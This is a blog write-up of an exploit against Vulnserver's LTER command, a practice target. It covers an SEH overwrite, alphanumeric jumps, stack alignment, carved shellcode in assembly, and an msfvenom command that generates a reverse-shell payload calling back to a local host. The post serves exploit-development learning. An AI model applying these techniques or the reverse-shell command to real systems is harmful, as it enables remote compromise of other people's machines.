 ```yaml
---
published: false
---
```



-----
# Intro
-----
This was probably one of the more complex Vulnserver exploits that I made, requiring lots of jumping around, stack adjustments, and the infamous alphanumeric character restrictions. I took this as an extra opportunity to practice some manual encoding but also sped things up with [this nice script here](https:github.com/ihack4falafel/Slink/blob/master/Slink.py)

While on one hand I found this more complex than the HP NNM exercise in the CTP course, I simultaniously found it easier, probably just because I was familiar with the concepts at this point, and also knew how to fix a mis-aligned stack (not to mention how to spot it).

By the way, for anyone who may be confused about the new look in the screenshots, I started using [x64dgb](https://x64dbg.com/) because of some of the nicer features here and there.

-----
# Part 1 - Starting with the SEH overwrite
-----

Long-time readers of my original blog should be familiar with the basics of an SEH overwrite, so I'll skip over the finer details and just get right to the important bits.

SEH overwrite occurs when sending 4000 "A"s, and the offsets for SEH and nSEH are around 3500:

![]({{site.baseurl}}/assets/images/lter/01.png)

![]({{site.baseurl}}/assets/images/lter/02.png)

![]({{site.baseurl}}/assets/images/lter/04.png)

![]({{site.baseurl}}/assets/images/lter/05.png)

So right away I've got a basically functioning SEH overwrite in the works. From here on out, the alphanumeric restrictions will start affecting how the exploit is written.

-----
# Part 2 - Alphanumeric shellcoding
-----

So now we get to the interesting part. A jump that doesn't use restricted characters. Remember that alphanumeric means we can only use 0x01 thru 0x7F. The usual `JMP SHORT` opcode, `\0xEB`, is outside of that range, so we can't use it.

There are a few different ways to go about jumping with alphanumeric characters, but I chose to do it with a conditional jump, `JZ`, or `Jump if 0`. I chose this because I noticed that the ZF flag was set to 1.

![]({{site.baseurl}}/assets/images/lter/06.png)

After taking the jump:

![]({{site.baseurl}}/assets/images/lter/07.png)

Now I'm in the buffer of "D"s. There isn't a ton of room to work with here so I want to start jumping backwards into the "A" buffer. The biggest jump I can make with a `JMP SHORT` is 127 forwards or backwards, so for now I have to settle on "carving" out the shellcode. To exercise my skills in doing this manually, I did the math on my own to make the shellcode.

Starting out, I need to look at the address of the last "D", and compare that to ESP. I need to make ESP point to the bottom of the "D"s so that any carved shellcode will appear there.

Bottom of the "D"s: `0x00E8FFFE`

ESP after the jump: `0x00E8EC8C`

A difference of 0x1372, or 4978 decimal bytes.

Fortunately, setting up ESP can be done with alphanumeric-friendly opcodes, so this won't have to be encoded.

```nasm
54          PUSH ESP        ; Push the value of ESP onto the stack
58          POP EAX         ; Pop that value into EAX
66057013    ADD AX, 0x1370  ; Add 0x1370 to the AX register to make it 0x00E8FFFC
50          PUSH EAX        ; Push this new value onto the stack
5C          POP ESP         ; Pop this value into ESP
```

I ended up cutting it short by 2 bytes, because setting ESP to `0x00E8FFFE` caused the stack to be out of alignment. With ESP now set, I can get to work carving out my shellcode.

Using the addition method, I 0 out EAX, do some math to it to match `0x909080EB`, and push that onto the stack, making the opcodes appear out of thin air:

![]({{site.baseurl}}/assets/images/lter/08.png)

![]({{site.baseurl}}/assets/images/lter/09.png)

Now that I have some space in the "A"s, I need to once again set ESP to the bottom of the "A"s so that carved shellcode appears there.

Last "A": `0x00E9FFCB`

ESP: `0x00E9FFFF`

A difference of 0x34 or 52 decimal bytes.

```nasm
54      PUSH ESP
58      POP EAX
2C34    SUB AL, 0x34
50      PUSH EAX
5C      POP ESP
```

Here is where things get complicated. I need to put this adjust as high up as I can so I have room for carving. I need to pay attention to where I landed in the "A" buffer, and figure out how far away from the FIRST "A" I am, so I can adjust that initial crash buffer.

The first "A": `0x00E9F1EE`

Where I am after the backwards jump: `0x00E9FF7A`

A difference of 3468 decimal bytes, which means I modify my payload accordingly:

![]({{site.baseurl}}/assets/images/lter/10.png)

The extra padding after `espAdj2` is to make sure the payload stays the same size and all the instructions injected so far stay where they are. Now that everything is in position, I test the ESP adjust:

![]({{site.baseurl}}/assets/images/lter/11.png)

![]({{site.baseurl}}/assets/images/lter/12.png)

The addresses changed here because they kept changing between restarts of the program in between changes to the payload, so disregard that, all that's important is that the offsets are calculated right.

With the extra space prepared, we're ready to carve out a bigger jump back, that will take more shellcode that couldn't have been previously fit in. I want to leverage all the space I have for the final payload, so I want to jump to the start of the "A" buffer. I'll do this by manipulating EBX and then jumping to it. I'm using EBX since EAX will be tied up with the "carving".

The first "A": `0x010AFFCB`

ESP: `0x010AF1EE`

A difference of 0xDDD or 3549 decimal bytes.
This is the shellcode I want to use:

```nasm
54            PUSH ESP
5B            POP EBX
81EBDD0D0000  SUB EBX, 0xDDD
FFD3          CALL EBX
```

I can save myself some carving by just putting `\x54\x5B` right into the payload since they're alphanumeric-friendly. The rest will need to be carved:

![]({{site.baseurl}}/assets/images/lter/13.png)

After stepping-thru the carver:

![]({{site.baseurl}}/assets/images/lter/14.png)

Now is when things get a little complex, because the stack is out of alignment again, and my payload is dying because of the misalignment:

![]({{site.baseurl}}/assets/images/lter/22.png)

The stack only seems slightly out of alignment so it should be easy to fix. Looking at the Disassembler pane after letting everything run up to this point, I figure out a place to sneak in the adjustment.

My `CALL EBX` is just above my nSEH overwrite, so counting the bytes up from there over the carved shellcode, I slip in a `INC ESP` instruction just before it:

![]({{site.baseurl}}/assets/images/lter/23.png)

![]({{site.baseurl}}/assets/images/lter/24.png)

It was a much simpler fix than I was fearing, and it seems like it's a bit of a jury-rigged fix, but it works, so I left it in.

![]({{site.baseurl}}/assets/images/lter/25.png)

![]({{site.baseurl}}/assets/images/lter/26.png)

At this point the stack is aligned properly and I'm no longer getting the `MISALIGNED` errors.

Finally with everything falling into place, I create the shellcode:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.128 LPORT=443 -f python -b '\x00' -e x86/alpha_mixed BufferRegister=EBX -v shellcode`

When generating alphanumeric shellcode, MSFvenom still prepends the payload with non-alphanumeric characters, which is very frustrating to say the least. This is because it needs some code to find itself in memory to use as a reference point for other operations. Luckily if you tell it where it is using a register, it becomes 100% alphanumeric-friendly. Since `EBX` is pointing to the top of the "A"s, I decide to put the shellcode right there, and tell MSFvenom that the shellcode is at the value in `EBX` with `BufferRegister=EBX`.

Everything should be ready to go. I let the payload execute fully:

![]({{site.baseurl}}/assets/images/lter/21.png)
